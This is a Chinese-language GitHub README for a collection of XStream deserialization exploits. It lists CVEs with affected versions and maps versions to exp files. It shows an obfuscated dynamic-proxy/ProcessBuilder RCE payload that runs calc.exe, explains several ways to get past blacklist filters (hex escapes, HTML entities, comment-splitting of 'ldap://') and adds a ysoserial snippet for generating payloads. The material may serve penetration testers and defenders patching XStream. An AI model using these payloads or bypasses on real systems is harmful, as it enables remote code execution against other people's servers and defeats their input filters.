 # Xstream

>该项目是为了整理Xstream的exp，有一些没有测试成功，欢迎pr。
>
>本来想写一个工具了生成exp，然后感觉这样整理出来也比较方便。。。。。懒。。

| XStream 远程代码执行漏洞 | CVE-2013-7285                                                | 1.4.x<XStream <= 1.4.6&=1.4.10 |
| ------------------------ | ------------------------------------------------------------ | ------------------------------ |
| XStream XXE              | [CVE-2016-3674](https://x-stream.github.io/CVE-2016-3674.html) | 1.4.x<`XStream` <= 1.4.8       |
| XStream 远程代码执行漏洞 | CVE-2019-10173                                               | `XStream` = 1.4.10             |
| XStream 远程代码执行漏洞 | [CVE-2020-26217](https://x-stream.github.io/CVE-2020-26217.html) | 1.4.x<`XStream` <= 1.4.13      |
| XStream 远程代码执行漏洞 | [CVE-2021-21344](https://x-stream.github.io/CVE-2021-21344.html) | 1.4.x<`XStream`: <= 1.4.15     |
| XStream 远程代码执行漏洞 | [CVE-2021-21345](https://x-stream.github.io/CVE-2021-21345.html) | 1.4.x<`XStream`: <= 1.4.15     |
| XStream 远程代码执行漏洞 | [CVE-2021-21346](https://x-stream.github.io/CVE-2021-21346.html) | 1.4.x<`XStream`: <= 1.4.15     |
| XStream 远程代码执行漏洞 | [CVE-2021-21347](https://x-stream.github.io/CVE-2021-21347.html) | 1.4.x<`XStream`<= 1.4.15       |
| XStream 远程代码执行漏洞 | [CVE-2021-21350](https://x-stream.github.io/CVE-2021-21350.html) | 1.4.x<`XStream`: <= 1.4.15     |
| XStream 远程代码执行漏洞 | [CVE-2021-21351](https://x-stream.github.io/CVE-2021-21351.html) | 1.4.x<`XStream`: <= 1.4.15     |
| XStream 远程代码执行漏洞 | [CVE-2021-29505](https://x-stream.github.io/CVE-2021-29505.html) | 1.4.x<`XStream`: <= 1.4.16     |
| XStream 远程代码执行漏洞 | CVE-2021-39141                                               | 1.4.x<`XStream`: <= 1.4.17     |
| XStream 远程代码执行漏洞 | CVE-2021-39144                                               | 1.4.x<`XStream`: <= 1.4.17     |
| XStream 远程代码执行漏洞 | CVE-2021-39146                                               | 1.4.x<`XStream`: <= 1.4.17     |
| XStream 远程代码执行漏洞 | CVE-2021-39148                                               | 1.4.x<`XStream`: <= 1.4.17     |
| XStream 远程代码执行漏洞 | CVE-2021-39152                                               | 1.4.x<`XStream`: <= 1.4.17     |
| XStream 远程代码执行漏洞 | CVE-2021-39154                                               | 1.4.x<`XStream`: <= 1.4.17     |



## 利用规则

  <1.4.6        [CVE-2013-7285](exp/RCE/CVE-2013-7285.xml)
 =1.4.10       [CVE-2019-10173](exp/RCE/CVE-2019-10173.xml)  && [CVE-2013-7285](exp/RCE/CVE-2013-7285.xml)
<=1.4.13      [CVE-2020-26217](exp/RCE/CVE-2020-26217.xml)
<=1.4.15      [CVE-2021-21345](exp/RCE/CVE-2021-21345.xml) &&  [CVE-2021-21344](exp/RCE/CVE-2021-21344.xml)  &&  [CVE-2021-21351](exp/RCE/CVE-2021-21351.xml)
<=1.4.16      [CVE-2021-29505](exp/RCE/CVE-2021-29505.xml)
<=1.4.17      [CVE-2021-39141](exp/RCE/CVE-2021-39141.xml) && [CVE-2021-39144](exp/RCE/CVE-2021-39144.xml) && [CVE-2021-39146](exp/RCE/CVE-2021-39146.XML)



## 绕过

eg：

```java
<sorted-set>
    <string></string>
    <dynamic-proxy>
        <interface>ja<!-- -->va<!-- -->.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.Pro&#99;essBuilder">
                <command>
                    <string>&#99;a<!-- test -->lc.exe</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```

```xml
1. 16进制绕过

<org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
</org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
当前黑名单为org[.]springframework，此时的绕过方法可以为
<org.s_.0070ringframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
</org.s_.0070ringframework.aop.support.AbstractBeanFactoryPointcutAdvisor>

2. 针对标签属性内容的绕过

<org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor serialization="custom">
</org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
此时的黑名单为custom，那么绕过方法可以为

<org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor serialization="cust&#111;m">
</org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor>
原理为读取属性内容时，会做符合要求的转化

3. 针对标签内容的绕过
<test>
ldap://xxxxx
</test>
此时的黑名单为ldap://，可以用如下的几种方法绕过

html编码:
这部分在提取数据时，同样对html编码的内容做了转化
<test>
&#108;dap://xxxxx
</test>

注释的方法:
在处理实际的标签内容时，遇到注视内容将被忽略掉
<test>
ld<!-- test -->ap://xxxxx
</test>
```

## 工具生成poc

```
java.exe -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.XStream
```

配合yso生成xstream的exp。添加Xstream组件依赖

```java
package ysoserial.exploit;

import clojure.lang.IFn;
import com.thoughtworks.xstream.XStream;
import ysoserial.payloads.ObjectPayload;

@SuppressWarnings({
    "rawtypes"
})

public class Xstream {
    public static void main(String[] args) {
        if(args.length<2){
            System.out.println("exit");
        }
        final Object payloadObject = ObjectPayload.Utils.makePayloadObject(args[0],args[1]);
        com.thoughtworks.xstream.XStream xstream = new XStream();
        //System.out.println(payloadObject);
        String s = xstream.toXML(payloadObject);
        System.out.println(s);
        ObjectPayload.Utils.releasePayload(args[0],payloadObject);
    }
}
```



